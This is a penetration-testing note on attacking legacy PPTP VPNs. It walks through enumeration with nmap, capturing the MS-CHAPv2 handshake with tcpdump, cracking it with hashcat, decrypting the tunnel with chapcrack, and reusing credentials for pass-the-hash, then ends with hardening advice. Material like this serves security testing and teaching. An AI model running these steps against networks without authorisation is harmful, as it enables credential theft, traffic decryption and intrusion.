

# 60 - PPTP (Port 1723) Pentesting

## 1. Executive Summary

PPTP (Point-to-Point Tunneling Protocol) is a legacy remote-access VPN: **TCP 1723** for the control channel plus **IP protocol 47 (GRE)** carrying the PPP payload, usually protected by MPPE with **MS-CHAPv2** authentication. MS-CHAPv2 is **cryptographically broken** — capturing a handshake lets you recover the user's **NT hash / password offline** (the DES keyspace reduces to a single brute-forceable operation). Note a host can answer on TCP/1723 while the tunnel still fails because **GRE (protocol 47) is filtered** — so test both.

## 2. Protocol Overview & Architecture

The TCP/1723 control channel sets up the session; actual PPP frames (including the MS-CHAPv2 auth exchange) ride inside **GRE**. The MS-CHAPv2 response is derived from the NT hash via three DES operations; the third DES key has only 2 effective bytes, so the whole thing cracks to an NT hash quickly (hashcat `-m 5500` NetNTLMv1/MS-CHAPv2) — then crack the NT hash to plaintext or pass-the-hash.

## 3. Enumeration & Footprinting

```bash
nmap -Pn -sSV -p1723 <IP>             # control channel + version/fingerprint
nmap -Pn -sO --protocol 47 <IP>       # is GRE (proto 47) actually reachable?
```

## 4. Exploitation Deep Dive

### 4.1 Capture the MS-CHAPv2 Handshake
On-path (SPAN/mirror or MITM), capture both control + GRE:
```bash
sudo tcpdump -ni <iface> 'tcp port 1723 or gre' -w pptp-handshake.pcap
```
(Capturing on the VPN endpoint itself can miss PPP control traffic on Linux — prefer an on-path vantage or capture GRE on the physical interface.)

### 4.2 Crack MS-CHAPv2 → NT hash / password
Extract the challenge/response and feed hashcat:
```bash
hashcat -m 5500 -a 0 mschapv2.hashes /usr/share/wordlists/rockyou.txt
```
With the recovered NT hash you can also decrypt the captured tunnel:
```bash
chapcrack.py decrypt -i pptp-handshake.pcap -o pptp-decrypted.pcap -n <recovered_nt_hash>
```

### 4.3 Connect / Reuse Creds
Recovered credentials (or NT hash) → connect to the PPTP VPN or reuse on AD/SMB.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- VPN access → internal network pivot.
- Recovered NT hash → pass-the-hash / AD reuse.
- Decrypted tunnel → read prior VPN traffic.

## 7. Defense & Hardening
1. **Decommission PPTP** — it is fundamentally broken; move to IKEv2/IPsec or WireGuard.
2. If unavoidable short-term, restrict 1723/GRE to known peers and require MFA at the app layer.
3. Monitor for handshake capture (rogue SPAN/MITM).

## 8. Chaining Opportunities
- NT hash → **[[06 - SMB (Ports 139-445) Pentesting]]** pass-the-hash, **Active Directory**.
- Modern VPN cousin: **[[59 - IPsec IKE VPN (Port 500) Pentesting]]**.

## 9. Related Notes
- [[59 - IPsec IKE VPN (Port 500) Pentesting]]

## 10. Tools
`tcpdump`, `hashcat -m 5500`, `chapcrack`, `nmap`.
